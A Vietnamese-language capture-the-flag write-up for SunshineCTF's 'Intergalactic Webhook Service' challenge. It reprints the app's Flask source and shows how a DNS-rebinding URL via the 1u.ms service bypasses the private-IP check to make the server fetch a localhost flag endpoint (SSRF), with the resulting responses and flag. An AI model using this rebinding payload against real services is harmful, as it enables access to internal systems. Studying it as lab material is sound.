 # **Intergalactic Webhook Service**

![image](static/1.png)

Bài này có source nên có thể tham khảo source ở đây: [Writeup_SunshineCTF/src at main · TranDongA3/Writeup_SunshineCTF](https://github.com/TranDongA3/Writeup_SunshineCTF/tree/main/src)

Bài này thì có 2 chức năng chính sau:

![image](static/2.png)

```
@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200
```

```python
@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500
```

Đăng ký webhook, và kích hoạt webhook id trả về từ đăng ký.

Ngoài ra còn có hàm phụ như là:

```python
def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None
```

Hàm này để check url thôi, hàm urlparse(url) dùng để tách các phần của url để kiểm tra tính hợp lệ , ip sẽ tiến hành lấy ip từ tên miền bằng hàm socket.gethostbyname(host)nếu mà thuộc những trường hợp kiểm tra như trên thì trả về False.

Nếu mà thành công thì trả về:

return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

Và có thể lấy id này để trigger đến URL . Ở đây mục tiêu flag của chúng ta đang nằm ở [localhost](http://localhost) :

```python
def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()
```

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

Có một luồng được khởi tạo song song với chương trình chạy ở [localhost](http://localhost) cồng 5001, thực hiện function FlagHanlder, nếu nếu là /flag thì sẽ trả về nội dung của nó . Lỗi này sẽ thấy rõ luôn là SSRF cụ thể là dùng kỹ thuật DNS rebinding để khai thác.

Cơ bản về kỹ thuật đó chính là dùng một tên miền ban đầu phân giải sẽ được một địa chỉ ip public như 8.8.8.8 (hoặc khác) nhưng mà lần sau sẽ phân giải ra là 127.0.0.1 . Để hiện thực hóa kỹ thuật đó ta sẽ dùng một dịch vụ có sẵn là : http://1u.ms/

Ta thử : 

![image](static/3.png)

Quá hay đúng không. Cụ thể hơn sẽ là trường hợp này:

http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag

![image](static/4.png)

Sau khi đăng ký trả về như này:

`{"id":"2ce6a28c-f69c-4b59-9d75-38d306734406","status":"registered","url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`

Lấy id để trigger thì được:

`{"response":"sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}","status":200,"url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`